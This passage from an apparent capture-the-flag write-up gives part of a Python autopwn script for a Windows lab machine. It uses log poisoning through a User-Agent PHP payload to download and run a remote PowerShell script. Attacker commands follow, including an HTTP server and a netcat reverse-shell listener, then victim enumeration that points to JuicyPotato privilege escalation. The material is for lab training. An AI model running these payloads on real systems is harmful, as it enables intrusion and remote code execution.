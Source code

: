 ```python
            'User-Agent': '<?php system("powershell IEX(New-Object Net.WebClient).downloadString(\'http://10.10.14.84/PS.ps1\')") ?>'
    }

    r = requests.get(poissoning_url, headers=headers)
    r = requests.get(rce_url)

if __name__ == '__main__':

    leaked_url = webMonitorAuthentication()
    register_user(leaked_url)
    poissoning_url = obtainUrlPoissoning(leaked_url)

    injectPoisson(poissoning_url,leaked_url)
    # try:
        # threading.Thread(target=injectPoisson, args=(poissoning_url,leaked_url)).start()
    # except Exception as e:
        # log.error(str(e))

    # shell = listen(lport, timeout=20).wait_for_connection()
    # shell.interactive()
```

> **Attacker Machine**:

```bash
python3 -m http.server 80
sudo rlwrap -cAr nc -nlvp 443
python3 autopwn_hack4u.py oldboy poisson.php          # :)

# or (interactive shell):
nvim autopwn_hack4u.py
python3 -m http.server 80
./bin/python3 ../exploits/autopwn_hack4u.py oldboy logpoisson.php
```

> **Victime Machine**:

```cmd
whoami
hostname
ipconfig

whoami /priv
# SeImpersonatePrivilege      --> JuicyPotato.exe

systemInfo
# System Type:               x64-based PC
```

<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_72.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_73.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_74.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_75.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bart_writeup/Bart_76.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

